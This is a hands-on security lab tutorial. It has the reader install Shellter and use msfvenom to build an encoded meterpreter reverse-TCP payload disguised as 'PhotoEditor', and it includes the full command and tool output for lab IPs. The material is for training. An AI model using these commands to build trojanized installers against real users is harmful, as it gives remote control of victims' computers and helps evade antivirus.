 # Create payload to exploit users

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

## Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Windows 7 | The Windows 7 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Shellter | You need to have the Shellter tool installed. Shellter is a dynamic shellcode injection tool used to inject exploits and Shellcode into native Windows applications. |
| Windows 7 IP | The IP address of the Windows 7 VM. In my case it is 192.168.8.130. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

## Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### Install Shellter

To install Shellter on Kali Linux, follow these steps (this process may take some time):

`sudo apt update`

`sudo apt install shellter`

`sudo dpkg --add-architecture i386`

`sudo apt update`

`sudo apt -y install wine32`

### Produce the “malicious” payload with Metasploit

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.147 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f raw -o /home/kali/Desktop/PhotoEditor.raw`

(note that LHOST and LPORT refer to the Kali Linux machine)

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
Saved as: /home/kali/Desktop/PhotoEditor.raw
```
